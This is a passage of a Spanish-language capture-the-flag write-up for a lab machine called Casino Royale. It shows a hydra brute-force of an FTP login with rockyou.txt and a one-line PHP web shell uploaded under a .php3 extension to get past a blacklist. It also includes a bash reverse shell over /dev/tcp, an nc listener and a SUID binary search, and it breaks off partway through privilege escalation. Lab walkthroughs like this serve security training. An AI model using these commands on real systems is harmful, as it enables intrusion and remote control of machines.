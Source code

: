 ```bash
hydra -l ftpUserULTRA -P rockyou.txt ftp://<ip> -t 20
```

Da como resultado la contraseña `bankbank` y así podemos entrar en el servicio `ftp`.

Hay que recalcar que si entramos en `http://casino-royal.local/ultra-access-view` entramos en una página de _directory listing_ que refleja los ficheros a los que vamos a acceder a continuación por ftp.

Para poder ganar acceso a la máquina debemos de subir un archivo `php` por ftp. El mío será el siguiente:

```php
<?php echo system($_GET['command']); ?>
```

Si intentamos subirlo con el comando de `ftp` `mget` no nos dejará ya que aplica una blacklist de extensiones. Si cambiamos la extensión a `php3` si nos deja.

Para que nos interprete el exploit necesitaremos dar permisos de lectura al archivo en el servidor `ftp` con:

```bash
chmod 777 exploit.php3
```

Una vez hecho esto debemos de dirigirnos a nuestro exploit desde la url desde `http://casino-royal.local/ultra-access-view` y en mi caso escribir la siguiente reverse shell en bash:

```bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/[ip]/[port] 0>&1' 
```

En burpsuite quedaría así:

![](/image/vh-writeup-casino-royale/rce.png)

Yo usaré el puerto `443` para entablar la reverse shell:

```bash
nc -nlvp 443
```

## Escalada de privilegios

Una vez en la máquina, buscamos por binarios con privilegios SUID:

```
find / -perm -4000 2>/dev/null
```

Y nos encontramos con lo siguiente:

![](/image/vh-writeup-casino-royale/suid.png)

Es un archivo propio de la máquina. Si lo ejecutamos dice lo siguiente:

![](/image/vh-writeup-casino-royale/SUIDejecutado.png)
